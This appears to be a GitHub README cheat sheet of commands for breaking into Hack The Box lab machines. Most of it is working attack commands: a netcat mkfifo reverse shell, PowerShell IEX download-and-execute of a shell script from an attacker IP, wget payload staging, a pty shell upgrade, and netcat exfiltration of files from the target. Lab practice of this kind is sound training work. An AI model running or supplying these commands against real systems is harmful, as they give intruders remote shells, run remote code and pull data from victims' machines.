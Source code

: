 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine
```shell
# Listen for reverse shell
nc -lnvp <port number> 
# Use netcat for reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port> >/tmp/f
```
**les.sh, LinEnum.sh, lse.sh (Recommended)** : Use for detect vuln in Linux machine

**Sherlock.ps1** : Use for detect vuln in Windows machine

### How to upload files to vuln linux machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
wget (your ip address):8000/(file to upload)
```
Example : 
```shell
wget 10.10.14.62:8000/les.sh
```
### How to execute powershell script to vuln windows machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
# if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
# or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
```shell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
```
### How to spawn bash shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### How to download file using netcat
```shell
# In your machine
nc -lnvp 6666 > file
# In vuln machine
nc -w 3 <your ip> 6666 < file
```
